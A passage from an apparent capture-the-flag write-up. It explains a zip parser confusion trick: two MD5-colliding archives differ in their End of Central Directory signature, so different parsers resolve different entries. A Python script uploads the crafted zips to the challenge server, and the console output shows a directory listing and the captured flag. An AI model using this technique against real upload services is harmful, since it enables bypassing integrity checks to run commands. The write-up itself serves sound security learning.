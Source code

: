 The right-hand side has a valid `End of Central Directory` signature starting at `0x180` (`.P .K 05 06`), so when the zip parser scans the file (from bottom up) it meets the valid signature and uses it to jump to the file it points to: `bye.txt`. However, on the left-hand side the offset at `0x180` contains an invalid signature (`.P .K 05 86`). So, the parser skips the entry that points to `bye.txt` and instead arrives to the valid entry at `0x100` - the one that points to `hello.txt`. 

All that's left is to send the files:

```python
import requests
import json

for file in ["zip_ls.zip", "zip_cat_flag.zip"]:
    print(f"Sending {file}\n")
    with open(file,'rb') as payload:
        headers = {'content-type': 'application/zip'}
        r = requests.post('https://ls.csa-challenge.com/upload-zip',
                          data=payload, headers=headers)
        j = r.json()
        print(json.loads(j["body"])[0])
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/checkpoint/ls/workspace]
└─$ python3 post.py
Sending zip_ls.zip

total 5
drwxr-xr-x 2 root  root    57 Aug 19 06:30 .
drwxr-xr-x 1 12569 users 4096 Aug 12 09:59 ..
-rwxr-xr-x 1 root  root    25 Aug  4 18:56 flag.txt
-rwxr-xr-x 1 root  root   504 Aug 19 06:30 lambda_function.py

Sending zip_cat_flag.zip

CSA{K1LL_MD5_A1r34dy_p1z}
```